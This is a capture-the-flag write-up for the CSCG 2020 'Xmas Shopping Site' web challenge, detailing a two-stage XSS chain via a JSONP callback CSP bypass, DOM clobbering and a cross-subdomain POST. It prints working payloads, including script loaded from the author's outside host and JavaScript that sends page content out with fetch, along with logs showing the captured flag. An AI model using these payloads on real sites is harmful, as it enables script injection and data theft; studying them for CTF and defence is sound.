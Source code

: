 # Xmas Shopping Site

**Author**: `Managarmr`

## Table of Contents

1. [Challenge](#1-challenge)
2. [Having a look](#2-having-a-look)
3. [Stage 1](#3-stage-1)
4. [Stage 2](#4-stage-2)
5. [Connecting the two](#5-connecting-the-two)
6. [Mitigations](#6-mitigations)

## 1. Challenge

**Category**: `Web`  
**Difficulty**: `Hard`  
**Author**: `Staubfinger`  
**Description**:

I made an Xmas Shop! If you run into any problems, just submit a link on the
submit page - and i will check it for you.

Check it out at: `http://xss.allesctf.net/`

## 2. Having a look

Checking out the shop we can see that this challenge is split into two stages,
the second one containing the flag and requiring an XSS. So let's have a look
at stage 1 first.

## 3. Stage 1

Looking at stage 1 we can notice a search box, which when fed with input will
redirect us to the same page, but echo our input in the `DOM` without any form
of sanitation. Unfortunately though the `CSP` blocks us from running inline
scripts: `"default-src 'self' http://*.xss.allesctf.net"`

Checking out the page source code we can find something else that seems fishy:
```html
<script src="/static/js/jquery-3.2.1.min.js"></script>
<script src="/static/js/shop.js"></script>
<script src="/items.php?cb=parseItems"></script>
```

The last one looks like a `jsonp` callback - and it really does echo our prefix.

So now we can execute arbitrary javascript within the `Stage 1` page, well
somewhat. The `items.php` callback has a length restriction of about `250`,
which can easily be bypassed by splitting our payload, but doing so and encoding
it over and over seems like way too much of a hassle.

Looking a bit further we can notice that the other included javascript pages do
not include the `CSP` header, but reside on the same domain - perfect. This
means we can host our payload externally and not bother with encoding at all.
We only have to load our external payload and encode the first one, which is
easy enough to do. The loader looks like this:

```html
<iframe src="/static/js/shop.js" id="x"></iframe>
<script src="items.php?cb=f%3Ddocument.getElementById%28%27x%27%29%3Bf.onload%3Dfunction%28%29%7Bs%3Df.contentDocument.createElement%28%27script%27%29%3Bs.src%3D%27%2F%2Fmanagarmr.pythonanywhere.com%2Fstage1%27%3Bf.contentDocument%5B%27body%27%5D.append%28s%29%3B%7D%2F%2F"></script>

<!--
	Payload in readable form:

	f = document.getElementById('x');
	f.onload = function() {
		s = f.contentDocument.createElement('script');
		s.src = '//managarmr.pythonanywhere.com/stage1';
		f.contentDocument['body'].append(s);
	}//
-->
```

Serving our payload we can successfully `alert(1)`:

```python
@app.route('/stage1')
def stage1():
    global stage_1_available, stage_1_fake

    if not stage_1_available and not stage_1_fake:
        return 'Nice try, feck off.', 403

    if stage_1_fake:
        stage_1_fake = False
        return '''
        Nope.
''', 200

    stage_1_available = False
    return '''
alert(1);
'''
```

## 4. Stage 2

Stage 2 doesn't seem to offer much functionality - the only thing you can do is
change the background. Playing around with this functionality we stumble over a
`DOM injection` - whichever value we set as `background` will be reflected
```html
<input type="hidden" id="bg" value="[HERE]">
```
without any form of sanitation.

But how do we leak the flag? The `CSP` is even more non-forgiving this time:
`script-src 'nonce-ruhLc6GKF9+VWMPK3JijX2uHKiE=' 'unsafe-inline'
'strict-dynamic'; base-uri 'none'; object-src 'none';` We _could_ use inline
scripts, but only if we know the `nonce`. Not only are scripts restricted, but
all other objects as well.

Well looking around what kind of scripts are used on the page we find some
handwritten script:

```javascript
$(document).ready(() => {
    $("body").append(backgrounds[$("#bg").val()]);
});

$(document).ready(() => {
    $(".bg-btn").click(changeBackground)
});

const changeBackground = (e) => {
    fetch(window.location.href, {
        headers: {'Content-type': 'application/x-www-form-urlencoded'},
        method: "POST",
        credentials: "include",
        body: 'bg=' + $(e.target).val() 
    }).then(() => location.reload())

};
```

This script is meant for applying the background, but it does so by just
appending some object to the `DOM` - nice. As we can arbitrarily inject `DOM`
elements we can `clobber` it in order to manipulate the `backgrounds` variable.

Injecting
```html
name"><a id="backgrounds" name="<script src='http://managarmr.pythonanywhere.com/stage2'></script>"></a><!--
```
will allow us to load arbitray javascript from our page.

Testing this with burp works like a charm - so let's just finish the payload
which will send the flag back to us:

```python
@app.route('/stage2')
def stage2():
    global stage_2_available, stage_2_fake

    if not stage_2_available and not stage_2_fake:
        return 'Nice try, feck off.', 403

    if stage_2_fake:
        stage_2_fake = False
        return '''
        Nope.
''', 200

    stage_2_available = False
    return '''
flag = encodeURIComponent($("b")[0].innerText);
fetch("http://managarmr.pythonanywhere.com/flag?flag=" + flag);
'''
```

## 5. Connecting the two

So now that we have exploited both stages separately, how do we connect them?

Well the second stage required a token, which will be regenerated for each
session upon visiting `Stage 1` - meaning we only have one shot. Redirecting to
our page in order to `POST` the value will not work as `CORS` would block it.
But the funny thing with `CORS` is that the preflight requests will not be sent
in all cases. If we send the `POST` from `Stage 1` there will be no preflight
request as the target domain is a subdomain and browsers consider those
requests "simple" ones. This means we can connect the stage by minorly tweaking
`Stage 1`:

```javascript
var stage2 = top.document.getElementById("stage2").href;

var xhr = new XMLHttpRequest();
xhr.open('POST', stage2, true);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.withCredentials = true;
xhr.onerror = function() {
    top.window.location = stage2;
};
xhr.send('bg=' + encodeURIComponent('name"><a id="backgrounds" name="<script src=\'http://managarmr.pythonanywhere.com/stage2\'></script>"></a><!--'));
```

Running our exploit returns the flag:

```
147.75.85.99 - - [31/May/2020:13:23:59 +0000] "GET /stage1 HTTP/1.1" 200 338 "http://xss.allesctf.net/static/js/shop.js" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/80.0.3987.132 Safari/537.36" "147.75.85.99" response-time=0.001
147.75.85.99 - - [31/May/2020:13:23:59 +0000] "GET /stage2 HTTP/1.1" 200 113 "http://stage2.xss.allesctf.net/?token=5ed3afef544e4" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/80.0.3987.132 Safari/537.36" "147.75.85.99" response-time=0.000
147.75.85.99 - - [31/May/2020:13:23:59 +0000] "GET /flag?flag=CSCG%7Bc0ngratZ_y0u_l3arnD_sUm_jS%3A%3E%7D HTTP/1.1" 404 232 "http://stage2.xss.allesctf.net/?token=5ed3afef544e4" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/80.0.3987.132 Safari/537.36" "147.75.85.99" response-time=0.001
```
`CSCG{c0ngratZ_y0u_l3arnD_sUm_jS:>}`

You can have a look at the exploits [here](http://managarmr.pythonanywhere.com/).
The code is `Managarmr` or `ManagarmrCSCGExploit2020` - pick yours :).

## 6. Mitigations

Both exploits can be prevented by properly sanitising input. Also use `CSP` on
all pages, not just some subset :).
